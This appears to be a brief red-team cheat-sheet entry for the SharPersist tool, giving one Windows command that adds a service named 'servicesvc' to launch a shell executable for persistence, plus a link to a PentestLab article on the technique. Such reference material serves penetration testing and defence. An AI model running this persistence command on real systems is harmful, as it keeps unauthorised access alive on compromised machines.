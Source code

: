 # SharPersist

`C:\> SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "servicesvc" -m add`

---
## References

- [PentestLab: Persistence New Service](https://pentestlab.blog/2019/10/07/persistence-new-service/)